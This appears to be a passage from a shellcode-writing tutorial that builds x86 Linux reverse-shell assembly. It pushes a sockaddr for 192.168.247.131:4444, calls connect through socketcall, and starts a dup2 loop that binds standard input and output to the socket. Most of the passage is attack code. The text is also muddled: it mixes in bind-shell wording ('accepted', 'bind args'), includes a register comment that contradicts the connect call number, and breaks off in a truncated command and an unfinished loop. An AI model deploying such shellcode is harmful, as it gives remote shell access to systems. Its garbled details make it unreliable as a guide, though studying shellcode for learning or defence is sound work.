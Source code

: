 \
As we created earlier, our reference is:\
int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
Just for my own understanding, I'll write out the socketcall format with any structs or objects in {}.\
socketcall( SYS_CONNECT, {sockfd, {AF_INET, 4444, [IP]}, 0x10} );\
EAX - 0x66\
EBX - 0x3\
ECX - pointing to stack:\
STACK: edi, point to struct, 0x10, struct{0x2, 0x115C, 0x83f7a8c0}\
\
Lets build this in assembly now:
```asm
mov al, 0x66
inc ebx      ; previously set to 0x1 -> increase it to 2

; push struct to stack
push 0x83f7a8c0       ; ip: aton(192.168.247.131) - 0x83f7a8c0
push word 0x5C11           ; port: htons(4444) - 0x5C11
push bx               ; AF_INET = 2

;store reference to struct
mov ecx, esp

; push bind args
push 0x10      ; sizeof(sock_addr) = 0x10
push ecx       ; struct sock_addr
push edi       ; sockfd

mov ecx, esp
int 0x80
```
### Redirect output
Now that we have accepted the connection, we need to redirect in, out, & err.
The return value for accept is the descriptor for the client connection, which will be used as an argument for dup2 in ebx.  We can just move this from eax to ebx first.\
dup2(client_socket, 0);\
dup2(client_socket, 1);\
dup2(client_socket, 2);\
This translates to:\
EAX - 0x3f\
EBX - return value from accept\
ECX - integer 2, 1, or 0
Since this is the same call 3 times and the only difference is an increasing (*hint* or decreasing) int.. this looks like a loop would be best to use here.\
Luckily, our loop only needs to decrease from 2.  ECX can be used as the counter AND the argument, which helps us out a lot here.

Grab the syscall number for dup2:
```c
cat /usr/
```
There is a conditional jump in assembly called jns which means, as I understand it, "Jump No Sign".  Which will take the jump until the Sign Flag is set.  Easier description.. Take the jump until the value becomes negative.\
This conditional jump is perfect for us because it will include 0 in our loop before exiting.
```asm
        mov ebx, eax    ; client_socket arg
        xor ecx, ecx    ; zero ecx avoiding nulls
        mov cl, 0x2     ; setup counter
dup:
        mov al, 0x3f
        int 0x80        ; dup2(client_socket, [ecx])
        dec ecx
```